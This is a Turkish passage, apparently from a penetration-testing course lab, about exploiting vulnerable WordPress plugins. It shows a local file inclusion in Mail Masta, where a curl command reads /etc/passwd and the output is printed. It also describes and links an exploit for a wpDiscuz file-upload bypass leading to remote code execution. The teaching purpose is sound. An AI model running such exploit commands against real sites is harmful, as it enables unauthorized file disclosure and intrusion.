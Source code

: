 Gördüğümüz gibi, pl parametresi herhangi bir girdi doğrulaması veya sanitizasyon olmadan bir dosya eklememize izin verir. Bunu kullanarak web sunucusuna rastgele dosyalar ekleyebiliriz. Şimdi cURL kullanarak /etc/passwd dosyasının içeriğini almak için bundan yararlanalım.

```shell-session
[!bash!]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```


#### Vulnerable Plugins - wpDiscuz

wpDiscuz, sayfa gönderilerine gelişmiş yorum yapmaya yarayan bir WordPress pluginidir. Bu yazının yazıldığı sırada eklenti 1,6 milyondan fazla indirilmiş ve 90.000'den fazla aktif kuruluma sahipti, bu da onu bir değerlendirme sırasında karşılaşma şansımızın çok yüksek olduğu son derece popüler bir plugin haline getiriyor. Sürüm numarasına (7.0.4) dayanarak, bu [exploit](https://www.exploit-db.com/exploits/49967) bize komut yürütme konusunda oldukça iyi bir şansa sahip. Güvenlik açığının özü bir dosya yükleme bypass'ıdır. wpDiscuz yalnızca resim eklerine izin vermek için tasarlanmıştır. Dosya mime türü fonksiyonları atlanarak kimliği doğrulanmamış bir saldırganın kötü amaçlı bir PHP dosyası yüklemesine ve remote code execution elde etmesine izin verilebilir. Mime türü algılama fonksiyonlarının atlanması hakkında daha fazla bilgiyi [burada](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/) bulabilirsiniz.
